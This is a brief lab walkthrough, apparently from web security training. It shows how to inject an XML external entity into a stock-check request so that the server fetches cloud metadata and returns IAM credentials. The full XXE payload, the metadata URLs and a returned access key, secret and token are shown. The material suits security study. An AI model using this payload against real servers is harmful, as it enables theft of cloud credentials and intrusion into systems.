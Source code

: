 # Lab: Exploiting XXE to perform SSRF attacks

Get a product page and hit the stock check, intercepting the request. Send it to the repeater and modify the XML to be:
```
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
        <stockCheck>
            <productId>
                &xxe;
            </productId>
            <storeId>
                1
            </storeId>
        </stockCheck>
```

This returns an error message "Invalid product ID: admin"

Change the url to be `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin` and send the request again. This returns:

```
"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2022-02-18T01:44:26.768358149Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "JFQlsCDJ2S3A39jBBC8K",
  "SecretAccessKey" : "icaCpebDUOmYlFXqbos4uSD0w2kOrLKCFR0anHBd",
  "Token" : "BTdQxostxhb9o6evXQAHJZynSJzVqKrp12i7qajIspcU6UdOdkfpfbPhYoQo9zHGAuJx3QhqVjoGcP4T4abHXymZx4q52wTalaA5UMrmuNK0SSIKWJomawd7xptHIquPBlBRBG97aCVMVyIh8LhbD3Wz40cragpHPPl81xCHyn6rq4HePAJrd0HOpJJwOelK8QXdrPSgCiri0ruAXAwL5APcoqkU87YWYUKUKXBkzaP3aoEcGA3Z2vhbXEWmwDZz",
  "Expiration" : "2028-02-17T01:44:26.768358149Z"
}"
```

Lab solved.